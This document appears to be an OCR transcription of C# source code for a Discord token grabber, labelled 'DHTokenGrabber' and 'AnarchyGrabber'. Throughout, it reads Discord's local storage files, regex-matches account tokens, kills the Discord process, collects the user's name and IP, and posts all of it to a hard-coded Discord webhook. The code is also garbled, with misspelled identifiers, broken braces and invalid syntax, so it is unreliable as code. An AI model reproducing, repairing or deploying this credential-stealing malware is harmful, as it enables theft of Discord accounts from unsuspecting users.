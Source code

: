 https://discord.com/api/webhooks/915678514315927623/mHCvr5-ugGTAsvJX0-QXu5U6zd7r2Qx6p4sSS0-0eRsgj8vQd-AobFwBU4_LsaAkOAuG
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
})),
try 
{
    HttpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).Result;
}
catch (Exception)
{
}
 }
 // Token: 0x060008 RID: 365 RVA: 0x0000818 File Offset: 0x00009A18
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/915678514315927623/mHCvr5-ugGTAsvJX0-QXu5U6zd7r2Qx6p4sSS0-0eRsgj8vQd-AobFwBU4_LsaAkOAuG").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,   string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "" + string.join("\n",new string[]
                {
                    content
                }) + ""
            },
            {
                "NamDO -Sam#0386"
                "redex token grabber"
            },
            {
                "undefined//discord.com/assets/652f40427e1f5186ad54836074898279.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/915678514315927623/mHCvr5-ugGTAsvJX0-QXu5U6zd7r2Qx6p4sSS0-0eRsgj8vQd-AobFwBU4_LsaAkOAuG, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    //AnarchyGrabber.Grabber   
    // token: RID:366 RVA:0x00008888 File Offset:e
    public static List<string> GetTokens(string dir, bool checklogs = false)
    {
        DirectoryInfo directoryinfo = new DirectoryInfo(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\AppData\\"
        + dir + "\\Local Storage\\leveldb");
        List<string> list = new List<string>();
        try 
        {
            foreach (FileInfo fileinfo in directoryinfo.Getfiles(checklogs ? "".log" : "".ldb"))
            {
                string input = fileInfo.OpenText().ReadToEnd();
                foreach (object obj in regex.Matches(input, "[\\w-]{24}\\.[\\w-]{6}\\.[\\w-}{27}"))
                {
                    Match macht2 = (Match)ojb2;
                    list.Add(macht2.Value);
                }
            }
        }
        catch
        {
        }
        list = list.Distinct<string>().Tolist<string>();
        bool flag = list.Count > 0;
        if (flag)
        {
            Grabber.TokensFound = true;
            List<string> list2 = list;
            int index = list.Count - 1;
            list2[index]+= " -NEWEST";
        }
        return list;
